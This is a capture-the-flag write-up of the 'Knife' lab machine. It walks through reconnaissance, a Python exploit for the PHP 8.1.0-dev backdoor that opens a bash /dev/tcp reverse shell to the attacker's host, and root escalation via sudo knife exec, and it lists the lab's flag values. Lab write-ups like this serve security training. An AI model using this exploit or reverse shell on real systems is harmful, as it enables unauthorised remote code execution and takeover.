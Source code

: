 # Knife

Add vhost :

```bash
echo '10.129.237.79 knife.htb'|tee -a /etc/hosts'
```

Scan :

```bash
nmap knife.htb
```

Open ports :

* `22/TCP` : SSH
* `80/TCP` : HTTP

Check service behind port `80/TCP` :

```bash
whatweb knife.htb
```

The result is :

```
http://knife.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.237.79], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Check exploit for `php 8.1.0-dev`. There is an exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell\_php\_8.1.0-dev.py). Before executing the Python code, I run `nc -lnvp 1234`.

```py
#!/usr/bin/env python3
import argparse,requests

request = requests.Session()

def checkTarget(url):
	response = requests.get(url)
	for header in response.headers.items():
		if "PHP/8.1.0-dev" in header[1]:
			return True
	return False

def reverseShell(lhost, lport, url):
	payload = "bash -c \"bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1\""
	headers = {"User-Agentt": "zerodiumsystem('" + payload + "');"}
	print(headers)
	injection = request.get(url, headers=headers, allow_redirects=False)

def main():
	url = input("url : ")
	lhost = input("lhost : ")
	lport = input("lport : ")

	if checkTarget(url):
		print("Host is vulnerable")
		reverseShell(lhost, lport, url)
	else:
		print("Host is not available or vulnerable, aborting...")
		exit

if __name__ == "__main__":
	main()
```

When I execute the payload, I enter `http://knife.htb`, `10.10.14.81` and `1234`. I get the reverse shell.

```sh
cat /home/james/user.txt 	# bd969018fc8c6bc909e18a256d60b262
```

Result of `sudo -l` :

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I can run `sudo /usr/bin/knife` without password. I execute the following command :

```sh
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

I gain root privileges :

```sh
cat root/root.txt	# c24b382d4f1d742936f9b154749bd6c4
```

